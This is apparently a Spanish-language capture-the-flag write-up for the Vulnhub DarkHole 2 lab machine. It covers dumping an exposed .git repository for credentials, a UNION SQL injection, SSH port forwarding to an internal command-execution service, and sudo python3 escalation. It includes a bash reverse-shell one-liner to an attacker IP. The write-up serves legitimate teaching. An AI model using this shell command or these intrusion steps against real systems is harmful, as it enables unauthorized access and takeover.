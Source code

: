```yaml
---
layout: single
title: DarkHole 2 - Vulnhub
excerpt: "Para resolver esta máquina nos dimos cuenta qué a la hora del escaneo con Nmap nos reportó que el repositorio .Git estaba expuesto, nos aprovechamos de esto para ver los commit's, en unos de los commits obtendríamos credenciales en texto claro para acceder en la página Web como el desarrollador Web, posterior a ello llevamos a cabo un SQLI basada en UNION para obtener credenciales SSH, una vez dentro podíamos ver el historial descubriendo así servicio web internos de los cuales abusamos para convertinos en usuario privilegiado."
date: 11/11/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp

tags:
  - Information Leakage
  - GitHub Project Enumeration > creds
  - SQLI
  - ssh (Remote Port Forwarding)
  - abusing Internal Web Server
  - bash History - Information Leakage
  - abusing sudoers
---
```


Para resolver esta máquina nos dimos cuenta qué a la hora del escaneo con Nmap nos reportó que el repositorio .Git estaba expuesto, nos aprovechamos de esto para ver los commit's, en unos de los commits obtendríamos credenciales en texto claro para acceder en la página Web como el desarrollador Web, posterior a ello llevamos a cabo un SQLI basada en UNION para obtener credenciales SSH, una vez dentro podíamos ver el historial descubriendo así servicio web internos de los cuales abusamos para convertinos en usuario privilegiado.


# PortScan
____

```
# Nmap 7.93 scan initiated Sat Nov 11 10:30:18 2023 as: nmap -sCV -p22,80 -oN targeted 192.168.204.160
Nmap scan report for 192.168.204.160
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57b1f564289891516d70766ea552435d (RSA)
|   256 cc64fd7cd85e488a289891b9e41e6da8 (ECDSA)
|_  256 9e7708a4529f338d9619ba757127bd60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   192.168.204.160:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-title: DarkHole V2
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 00:0C:29:DB:9D:4B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 11 10:30:25 2023 -- 1 IP address (1 host up) scanned in 7.00 seconds
```


Vemos qué está expuesto el repositorio **Git**

# WebSite
___


![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111125625.png)


No vemos nada sospechoso de primera, así qué procedemos a obtener el repositorio **Git** qué nos reportó el **Nmap** en local, con la herramienta [Git-Dumper](https://github.com/arthaud/git-dumper) para obtener lo qué parece ser el código fuente & ver sí podemos aprovecharnos de algo.
```bash
 ./git_dumper.py http://192.168.204.160/.git ~/192.168.204.160
```

Teniendo así en local el repositorio .**GIT.**

![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111130205.png)
Otra forma de obtener los recursos **.git** en local, es con "wget".
```bash
wget -r http://192.168.204.160/.git/
```

Sí leemos el "**COMMIT_EDITMSG**" vemos qué se hizo un commit con nombre "**i changed login.php file for more secure**", así que podríamos tratar de ver como era el **login.php** antes del commit, logrando así verlo como era antes.

1. Vemos los log's commits hechos.
```bash
git log
```
![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111131806.png)
Este commit tiene mala apariencia, porque aparentemente agregaron el login.php con las credentials default.

2. Entramos al commit qué nos interesa.
```bash
git show a4d900a8d85e8938d3601f3cef113ee293028e10
```

![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111131937.png)

Logrando ver así las credenciales default en texto claro.


Probamos loguearnos con estas credenciales en el sitio web.

![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111132127.png)


# SQL Injection
____



![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111132136.png)

Hemos entrado como el usuario **Jehad Alqurashi**, qué aparentemente es desarollador web.

Buscando vulnerabilidades o de qué podríamos aprovecharnos de primera no encontré nada, pero fijandome en la **URL** ví qué probablemente sea vulnerable a **Inyecciones SQL**, así qué empiezo probando con un **sleep**.
![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111132414.png)

Logrando así que dure 5 segundos en responder, esto confirmándonos que esta página es vulnerable a **Inyecciones SQL**, así que podríamos intentar ver credenciales de las base de datos de la página web.

1. Identificamos el número de columnas
![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111132945.png)

2. Vemos las bases de Datos existentes.
![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111133102.png)

3. Ver tablas existente de la DB qué nos interesa.
![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111133205.png)

4. Ver columnas de la tabla que nos interesa.
![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111133410.png)

5. Ver contenido de las columnas qué nos interesan.
![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111133551.png)

Obteniendo así lo qué parece ser credenciales para conectarnos a través de SSH.

![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111133724.png)
___


# Escalada de Privilegios #1
____



Indagando, descubrimos qué el historial no tiene un enlace simbólico al **"/dev/null"**, por lo qué podríamos tratar de ver sí contiene algo de lo que podrimos aprovecharnos.

![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111134155.png)

Encontramos qué local de la máquina por el puerto **:9999** sé está usando un código para mediante los parámetros "**?cmd=**'" indicar qué comandos se quieren ejecutar.

De primera pienso que eso lo ejecuta el mismo usuario del sistema "**jehad**", pero para corroborarlo hago un **Remote Port Forwarding** para que el **:9999** de la máquina víctima sea el **:9999** de mi máquina, esto a través de SSH tal que así.
```bash
ssh jehad@192.168.204.160 -L 9999:127.0.0.1:9999
```

De forma qué entro al 9999 en local, y utilizó los parámetros que nos chivó el historial de Bash, ejecutando un "whoami"
![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111141545.png)

Para mi sorpresa, el **RCE** lo ejecuta el usuario "**losy**", por lo qué se me ocurre migrar a este usuario mediante una **Reverse Shell,** esto a ver sí encontramos otra forma de migrar a ROOT.

```bash
http://localhost:9999/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.204.130/443 0>%261"
```

![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111141841.png)

Ahora quedaría darle **Tratamiento a la TTY**, sino sabemos como te recomiendo [((CLICKEAR AQUÍ))](https://4uli.github.io/tratamiento-tty/)

________

# Escalada de Privilegios #2
____


Estando como "**Losy**", también podemos ver el historial de Bash, así qué echándole un ojo encontraríamos las credenciales de la misma **Losy**.

![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111142208.png)

Por lo qué se me ocurre ver los permisos **SUDOERS**.

![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111142324.png)

Encontraríamos que tenemos permisos **SUDOERS** como ROOT para python3, por lo qué podríamos aprovecharnos de esto para escalar nuestro privilegio.

1. Abrimos Python3 como Root.
```bash
sudo /usr/bin/python3
```

2. Colocamos las siguientes líneas:
![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111142707.png)
